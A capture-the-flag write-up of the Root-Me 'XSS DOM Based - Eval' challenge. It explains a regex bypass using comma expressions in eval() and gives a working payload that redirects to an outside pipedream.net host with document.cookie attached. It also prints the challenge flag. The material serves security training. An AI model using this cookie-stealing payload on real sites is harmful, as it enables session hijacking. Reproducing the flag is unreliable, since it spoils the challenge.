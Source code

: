 # XSS DOM Based - Eval

In this chall, you will be provided with a calculator that can add, substract, multiply and divide. There is only one input field so we will attack on that.

![anh1](https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/XSS_DOM_Based_Eval1.png)

Enter a string and this is what you'll get.

![anh2](https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/XSS_DOM_Based_Eval2.png)

If you look carefully, the regex is not very hard to bypass. Just enter an expression at the start of the input, after that we can do anything we want.

Now I wil tell you how to solve this challenge. The `eval()` function can execute one or more commands in only one call like this:
`eval(<expression1>,<expression2>,<expression3>)`. For example, if you use `eval(alert(1),alert(2))`, you will get 2 popup alert box. So we will leverage this and solve this challenge. The payload to exploit this challenge will be like `1+1,<your payload>`. We use `1+1` to bypass the regex, after that we will use `,` to pass another parameter to the `eval()` function, that is our payload. However, if you use alert(), you will get this:

![anh3](https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/XSS_DOM_Based_Eval3.png)

The `()` is filtered, so I used `document.location` to XSS, and It's success! The payload I used to solved this challenge is  

```javascript

1+1,document.location="https://eo3f8xwoiu4uj8s.m.pipedream.net/?"+document.cookie

```

Enter the payload, then grab the url and send it to admin using Contact feature. Wait for a short time and the flag is arrived :D

![anh4](https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/XSS_DOM_Based_Eval4.png)

Flag is `rootme{Eval_Is_DangER0us}`

![anh5](https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/XSS_DOM_Based_Eval5.png)